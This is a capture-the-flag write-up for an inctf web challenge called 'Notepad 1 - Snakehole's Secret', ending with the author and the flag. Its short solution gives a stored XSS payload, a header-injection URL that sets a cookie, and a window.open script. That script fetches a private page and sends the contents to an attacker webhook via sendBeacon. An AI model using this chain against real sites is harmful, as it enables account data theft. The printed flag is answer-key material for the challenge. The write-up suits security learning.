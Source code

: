 # Notepad 1 - Snakehole's Secret

### Challenge Description

Janet Snakehole, the rich aristocratic widow with a terrible secret, is being investigated by the FBI's number 1, Burt Tyrannosaurus Macklin. Burt found a website that she visits often. See if you can find anything.  


### Challenge File
[Source](./Handout/snakeholessecret.zip)

### MD5 Hash: 
`ff4b96d11c70af25c0175d5545b33fc2`


### Short Writeup

* Payload in user's note
    * `<img src/onerror="eval(window.name)">`

* Send a page to admin that does the following
    * Set-Cookie with your id.
        * `http://chall.notepad1.gq/find?startsWith=d&debug=y&Set-Cookie=id=f616c83f2f0f188265c7004d81d45723%3B%20path=/get`
    * Open the page again with the following window.name . Now that your XSS payload gets loaded, remove your cookie and fetch flag.
        * `window.open("http://chall.notepad1.gq",name="document.cookie='id=f616c83f2f0f188265c7004d81d45723; expires=Thu, 01 Jan 1970 00:00:00 UTC;path=/get;';document.cookie=x;fetch('/get').then(response=>response.text()).then(data=>navigator.sendBeacon('${webhook}',data));")`

### Author
[Az3z3l](https://twitter.com/Az3z3l)

### Flag
`inctf{youll_never_take_me_alive_ialmvwoawpwe}`